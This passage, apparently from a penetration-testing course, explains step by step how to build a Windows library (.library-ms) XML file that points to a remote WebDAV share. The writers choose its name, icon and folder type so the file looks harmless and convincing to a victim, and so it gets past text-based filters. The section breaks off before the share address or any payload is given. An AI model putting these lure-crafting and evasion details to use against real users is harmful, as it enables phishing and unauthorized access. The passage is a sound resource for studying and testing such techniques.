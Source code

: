 ```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name9 tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". The version10 tag can be set to a numerical value of our choice, for example, 6.

```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. For our targets, this may be another small detail to make the whole process feel more genuine and therefore, we'll set it to true. The next tag we'll add is iconReference,12 which determines what icon is used to display the library file. We must specify the value in the same format as the name element. We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon from the user home directories or "-1003" for the Pictures folder icon. We'll provide the latter to make it look more benign.

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>@imagesres.dll,-1003</iconReference>
```

Now, let's add the templateInfo13 tags, which contain the folderType14 tags. These tags determine the columns and details that appear in Windows Explorer by default after opening the library. We'll need to specify a GUID that we can look up on the Microsoft documentation15 webpage. For this example, we'll use the Documents GUID to appear as convincing as possible for the victim.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList,16 tag which contains a list of search connectors17 defined by searchConnectorDescription.18 Search connectors are used by library files to specify the connection settings to a remote location. We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. For this example we only specify one.

Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation19 tag with the value set to true. This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.
